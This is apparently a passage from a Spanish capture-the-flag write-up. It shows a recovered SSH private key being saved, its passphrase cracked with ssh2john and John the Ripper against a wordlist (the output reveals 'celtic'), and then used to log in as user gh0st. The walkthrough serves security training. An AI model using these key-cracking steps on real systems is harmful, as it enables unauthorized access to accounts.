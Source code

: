 ### SSH

```shell
nano id_rsa

#Dentro del nano
<CLAVE_ID_RSA>
```

Lo guardamos y establecemos los permisos necesarios para que se comporte como tal.

```shell
chmod 600 id_rsa
```

Ahora intentaremos conectarnos.

```shell
ssh -i id_rsa gh0st@<IP>
```

Info:

```
Enter passphrase for key 'id_rsa':
```

Vemos que nos pide la contraseña de dicha clave, por lo que vamos a intentar `crackearlo` de esta forma.

```shell
ssh2john id_rsa > hash.ssh
```

```shell
john --wordlist=<WORDLIST> hash.ssh
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
celtic           (id_rsa)     
1g 0:00:00:06 DONE (2025-05-15 03:25) 0.1663g/s 42.59p/s 42.59c/s 42.59C/s tiffany..freedom
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Vemos que hemos obtenido la contraseña de dicha clave, por lo que ahora si vamos a repetir el proceso de conectarnos por `SSH` pero ahora metiendo la clave.

```shell
ssh -i id_rsa gh0st@<IP>
```
